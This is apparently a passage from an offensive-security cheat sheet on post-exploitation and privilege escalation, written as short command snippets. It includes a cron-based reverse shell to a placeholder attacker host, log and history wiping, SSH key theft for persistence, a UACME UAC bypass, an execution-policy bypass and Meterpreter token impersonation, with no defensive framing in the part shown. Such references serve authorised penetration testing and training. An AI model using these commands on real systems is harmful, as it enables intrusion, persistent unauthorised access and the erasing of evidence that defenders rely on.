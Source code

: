 ### Clearing Tracks
- Metasploit/Meterpreter:
    ```sh
    clearev
    ```

## Linux Post-Exploitation

### Persistence
- Metasploit:
    ```sh
    search persistence module (Linux)
    ```
- Via SSH key:
    ```sh
    transfer SSH private key to local machine and use it to connect via SSH
    ```
- With cron jobs:
    ```sh
    echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" > cron
    crontab -i cron
    crontab -l
    ```

### Clearing Tracks
- Linux:
    ```sh
    history -c
    cat /dev/null > ~/.bash_history
    ```

## Privilege Escalation

### Windows Privilege Escalation

#### Automation Script
- PrivescCheck:
    ```sh
    powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
    ```

#### UAC Bypass
- UACME:
    ```sh
    Akagi64.exe 23 <payload_full_path>
    ```

#### Impersonate Tokens
- Metasploit:
    ```sh
    load incognito
    list_tokens -u
    impersonate_token <token_name>
    ```
